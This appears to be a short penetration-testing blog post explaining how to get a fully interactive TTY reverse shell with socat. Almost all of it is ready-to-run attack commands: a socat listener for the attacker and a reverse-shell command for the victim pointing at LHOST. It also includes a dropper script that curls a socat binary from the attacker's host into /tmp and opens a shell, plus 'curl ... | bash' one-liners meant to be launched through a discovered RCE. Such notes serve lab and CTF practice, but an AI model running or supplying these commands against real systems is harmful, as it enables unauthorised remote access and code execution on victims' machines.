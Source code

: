 ```yaml
---
title: Full TTY Shell with Socat
layout: post
author: hyprcub
tags: trick
---
```


# References

- [Upgrading Simple Shells to Fully Interactive TTYs](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)
- [Statically-linked binaries of various tools](https://github.com/andrew-d/static-binaries)

#  Introduction

This is a quick trick to get a full TTY reverse shell using [socat](http://www.dest-unreach.org/socat/) which is really an awesome tool. There's nothing new, it has already been described on [ropno's blog](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/#tldr-cheatsheet) to some extent. However, I wanted to put it here as a reference, at least for the way I use it most of the time.

# Principles

On the attacker's machine (listening mode):
```bash
sudo socat file:`tty`,raw,echo=0 tcp-listen:443
```
On the victim's machine (sending mode):
```bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:LHOST:443
```
where `LHOST` has to be replaced with attacker's IP.

# When you have some kind of RCE

1. Start your listener as above.
2. Serve a script file called `socat.sh` via HTTP, containing:
    ```bash
    #!/bin/sh

    LHOST=10.11.31.164 # change this
    LPORT=443 # change this
    DIR=/tmp # maybe also this

    # choose between curl or wget
    curl -q http://$LHOST/socat -o $DIR/socat
    #wget -q http://$LHOST/socat -O $DIR/socat
    chmod +x $DIR/socat
    $DIR/socat exec:'/bin/bash -li',pty,stderr,setsid,sigint,sane tcp:$LHOST:$LPORT
    ```
3. You also have to serve a static version of `socat` you'll find [there](https://github.com/andrew-d/static-binaries/tree/master/binaries).
4. Then, on the victim's machine, via the RCE you discovered:
    ```bash
    curl -q http://LHOST/socat.sh | bash
    ```
    or
    ```bash
    wget -q http://LHOST/socat.sh -O - | bash
    ```
